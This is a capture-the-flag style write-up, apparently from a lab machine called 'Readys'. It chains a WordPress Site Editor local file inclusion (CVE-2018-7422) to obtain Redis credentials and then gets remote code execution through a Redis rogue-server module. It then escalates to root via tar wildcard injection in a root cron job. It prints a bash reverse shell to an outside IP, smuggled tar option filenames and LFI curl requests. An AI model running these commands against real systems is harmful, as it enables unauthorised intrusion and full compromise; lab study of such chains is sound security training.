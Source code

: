 # Readys

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.208.166                   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 15:23 +08
Nmap scan report for 192.168.208.166
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
```

Redis is enabled on this, which is probably vulnerable somehow. I did a detailed scan too:

```
$ nmap -p 80,6379 -sC -sV --min-rate 3000 192.168.208.166        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 15:24 +08
Nmap scan report for 192.168.208.166
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Readys &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.38 (Debian)
|_http-generator: WordPress 5.7.2
6379/tcp open  redis   Redis key-value store
```

Wordpress was running on the site, so let's scan that first.

### Redis Creds Block

The Redis instance needed credentials to enumerate:

```
$ redis-cli -h 192.168.208.166
192.168.208.166:6379> INFO
NOAUTH Authentication required.
```

### Wordpress LFI --> Redis Creds

I used `wpscan` on the website and found a vulnerable plugin.&#x20;

```
$ wpscan --api-token mytoken --enumerate p,t,u --url http://192.168.208.166
<TRUNCATED>
[+] site-editor
 | Location: http://192.168.208.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
```

I confirmed that this works:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we have an LFI, and the only other exploitable thing is the Redis instance. I tried to find credentials for it using this LFI, and found it within `/etc/redis/redis.conf`:

{% code overflow="wrap" %}
```
$ curl http://192.168.208.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis/redis.conf > redis.conf
```
{% endcode %}

Searching for the `AUTH` string allowed me to find the password:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

We can then enumerate the database:

<figure><img src="../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### Redis RCE

The Redis instance is vulnerable to RCE through the module loading exploit with Redis Rogue Server:

{% embed url="https://github.com/n0b0dyCN/redis-rogue-server" %}

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

We can easily get a reverse shell using this RCE exploit:

<figure><img src="../../../.gitbook/assets/image (6) (1) (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Redis --> Alice

This user had extremely limited privileges over the file system. There was a user present, but I cold not even read the `/home` directory. There wasn't much else we could do besides try to execute PHP reverse shells using the LFI we had.

I wrote a PHP reverse shell to the `/opt/redis-cli` directory. Then, using our LFI, we can execute it:

{% code overflow="wrap" %}
```
$ curl http://192.168.208.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/phpreverseshell.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

### Cronjob --> Tar Command Injection

I ran `pspy64` on the machine to see what processes were being run.

```
2023/07/21 03:51:01 CMD: UID=0    PID=839    | /usr/sbin/CRON -f 
2023/07/21 03:51:01 CMD: UID=0    PID=840    | /bin/sh -c /usr/local/bin/backup.sh
```

`root` is running a script here:

```bash
alice@readys:~$ cat /usr/local/bin/backup.sh
#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
```

This script checks multiple files at one go (3 in this case) Based on GTFOBins, we can use `tar` to execute commands.

{% embed url="https://gtfobins.github.io/gtfobins/tar/" %}

```bash
./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

To exploit this, we just need to create two files, one called `--checkpoint=1` and another called `--checkpoint-action=exec=bash ez.sh`.&#x20;

We can first create `ez.sh`:

```bash
echo '#!/bin/bash' > ez.sh
echo 'bash -i >& /dev/tcp/192.168.45.153/21 0>&1' >> ez.sh
chmod 777 ez.sh
```

Then, we can create the two files needed.

```bash
touch ./'--checkpoint=1'
touch ./'--checkpoint-action=exec=bash ez.sh'
```

After a while, the `root` user would execute the script and we would get a reverse shell:

![](<../../../.gitbook/assets/image (24).png>)
